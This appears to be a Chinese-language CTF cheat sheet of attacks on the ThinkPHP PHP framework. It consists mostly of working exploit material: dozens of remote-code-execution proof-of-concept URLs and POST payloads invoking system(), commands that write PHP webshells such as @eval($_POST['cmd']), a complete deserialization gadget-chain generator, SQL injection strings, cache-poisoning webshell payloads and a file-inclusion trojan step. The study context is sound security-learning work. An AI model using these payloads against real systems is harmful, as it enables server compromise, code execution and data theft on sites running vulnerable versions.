

## **日志泄露**
thinkphp debug
```
http://localhost/应用名称/Runtime/Logs/组名/18_08_15.log

App/Runtime/Logs/Api/25_01_01.log

\Application\Runtime\Logs\Home

/var/www/html/App/Runtime/Logs/Api/25_01_01.log
```
## **Thinkphp3代码基础**
#### **1、默认路由**
thinkphp3.2的路由模式：PATHINFO模式
```
http://serverName/index.php/模块/控制器/操作
```
为了访问下图中的index方法并传入name参数，输出hello 123我们可以通过下面四种模式。 
```
Home模块，Index控制器，index操作方法
PATHINFO模式 http://localhost/index.php/Home/Index/index/name/123/ 
普通模式 http://localhost/index.php?m=Home&c=Index&f=index&name=123 
兼容模式 http://localhost/index.php?s=Home/Index/index/name/123 
    其中参数s来自于ThinkPHP->Conf->convention.php中的VAR_PATH_INFO设置,所以我们也可以改成其他的参数。 

REWRITE模式 http://localhost/Home/Index/index/name/123/
```



^
#### **2、配置路由**
存在config.php可以配置路由模式     
```
<?php
return array(
	//'配置项'=>'配置值'
    'URL_ROUTER_ON'   => true, 
	'URL_ROUTE_RULES' => array(
    'ctfshow/:f/:a' =>function($f,$a){
    	call_user_func($f, $a);
    	}
    )
);
这里通过/index.php/ctfshow/函数名/参数  调用利用
如：
/index.php/ctfshow/system/pwd
/index.php/ctfshow/assert/eval($_POST[1])   同时post： 1=system('cat /f*');
```

^
#### **3、框架特性漏洞**
使用$this->show()直接渲染存在代码执行
```
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index($n=''){
        $this->show('<p>hello,'.$n.'黑客建立了控制器后门，你能找到吗</p>','utf-8');
    }
}

这里传入
/index.php/home/index/index?n=<?php system("cat /f*");?>
```


^
## **Thinkphp RCE　POC大全**
在 Vulhub 中，也可以找到了该漏洞的利用 POC
一般也可以用工具一把梭
输入路径加上public
```
http://5cffd11c-0f8a-46c7-8b5f-cdfde62cc85c.challenge.ctf.show/public/
```
**Thinkphp 5.0.22 POC**
1. `http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.username`
2. `http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.password`
3. `http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id`
4. `http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`

**Thinkphp 5 POC**
5. `http://127.0.0.1/tp5/public/?s=index/\think\View/display&content=%22%3C?%3E%3C?php%20phpinfo();?%3E&data=1`

**Thinkphp 5.0.21 POC**
6. `http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id`
7. `http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`

**Thinkphp 5.1.x POC**
8. `http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=phpinfo&data=1`
9. `http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=system&data=cmd`
10. `http://url/to/thinkphp5.1.29/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E`
11. `http://url/to/thinkphp5.1.29/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E`
12. `http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`
13. `http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd`
14. `http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`
15. `http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd`

**Thinkphp 未知版本 POC**
16. `?s=index/\think\module/action/param1/${@phpinfo()}`
17. `?s=index/\think\Module/Action/Param/${@phpinfo()}`
18. `?s=index/\think/module/aciton/param1/${@print(THINK_VERSION)}`

**Thinkphp 5.0.23 (完整版) debug模式 POC**
32. `(post)public/index.php 
32. (data)_method=__construct&filter[]=system&server[REQUEST_METHOD]=touch%20/tmp/xxx`

```
echo "<?php phpinfo();?>" > /var/www/public/test2.php

echo "<?php @eval(\$_POST['cmd']);?>" > /var/www/public/test.php
```


**Thinkphp 5.0.23 (完整版) POC**
33. `（post）public/index.php?s=captcha
33.  (data) _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls -al`

**Thinkphp 5.0.10 (完整版) POC**
34. `(post)public/index.php?s=index/index/index (data)s=whoami&_method=__construct&method&filter[]=system`

**Thinkphp 5.1.x 和 5.2.x 和 5.0.x POC**
35. `(post)public/index.php (data)c=exec&f=calc.exe&_method=filter`


^
## **Thinkphp cache缓存函数远程代码执行漏洞**
https://blog.csdn.net/rfrder/article/details/114599310
tinkphp5.0.5默认控制器的部分代码，使用默认路由：
```
<?php
 public function rce(){
        Cache::set("cache",input('get.cache'));
        return 'done';
    }
```

缓存生成的路径和文件名是根据参数名的md5值计算的，这里是cache。
```
/public/index.php?s=index/index/rce&cache=%0d%0asystem(%27cat%20/flag%27);//
再访问缓存路径： /runtime/cache/0f/ea6a13c52b4d4725368f24b045ca84.php
```


^
^
## **Tinkphp 5.1反序列化**
一般工具一把梭
入口
```
?&lin=cat /flag&data=序列化串
?lin=id  POST  code=序列化串
```
```
<?php
namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->append = ["lin"=>["calc.exe","calc"]];
        $this->data = ["lin"=>new Request()];
    }
}
class Request
{
    protected $hook = [];
    protected $filter = "system"; //PHP函数
    protected $config = [
        // 表单ajax伪装变量
        'var_ajax'         => '_ajax',  
    ];
    function __construct(){
        $this->filter = "system";
        $this->config = ["var_ajax"=>'lin']; //PHP函数的参数
        $this->hook = ["visible"=>[$this,"isAjax"]];
    }
}


namespace think\process\pipes;

use think\model\concern\Conversion;
use think\model\Pivot;
class Windows
{
    private $files = [];

    public function __construct()
    {
        $this->files=[new Pivot()];
    }
}
namespace think\model;

use think\Model;

class Pivot extends Model
{
}
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
?>
```


^
## **Thinkphp5 sql注入测试**
**5.0.13<=ThinkPHP<=5.0.15** 
 **5.1.0<=ThinkPHP<=5.1.5** 

application/index/controller/Index.php手动修改如下：
```
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $username = request()->get('username/a');
        db('users')->insert(['username' => $username]);
        return 'Update success';
    }
}
```
insert是直接替换的字符串，使用如下触发sql注入
```
/index/index/index?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1

/index/index/index?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,user(),0x7e),1)^&username[3]=0
```
需要开启app_debug才能看到报错注入。


^
## **ThinkPHP5全版本 sql注入**
application/index/controller/Index.php文件代码设置如下：
```
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $username = request()->get('username');
        $result = db('users')->where('username','exp',$username)->select(); //触发条件

        
//这里的`'exp'`是一个特殊的关键字，表示后面的`$username`是一个原生的SQL表达式，而不是一个普通的值。
//也就是说，会直接将`$username`的内容作为SQL语句的一部分来执行，而不是作为参数进行值替换。


        return 'select success';
    }
}
```
config/app.php 中开启 app_debug 和 app_trace。
报错注入
```
/index/index/index?username=) union select updatexml(1,concat(0x7,user(),0x7e),1)#
```


^
## **Tinkphp5缓存写马**
该类会将缓存数据通过序列化的方式，直接存储在 **.php** 文件中，攻击者通过精心构造的 **payload** ，即可将 **webshell** 写入缓存文件。缓存文件的名字和目录均可预测出来，一旦缓存目录可访问或结合任意文件包含漏洞，即可触发 **远程代码执行漏洞** 。漏洞影响版本： **5.0.0<=ThinkPHP5<=5.0.10** 。
```
<?php
namespace app\index\controller;
use think\Cache;
class Index
{
    public function index()
    {
        Cache::set("name",input("get.username"));
        return 'Cache success';
    }
}
```
```
/public/?username=mochazz123%0d%0a@eval($_GET[_]);//
```


^
## **Thinkphp5文件包含木马**
**5.0.0<=ThinkPHP5<=5.0.18** 、**5.1.0<=ThinkPHP<=5.1.10**。
并将图片马 **1.jpg** 放至 **public** 目录下（模拟上传图片操作）。接着访问 **http://localhost:8000/index/index/index?cacheFile=1.jpg**


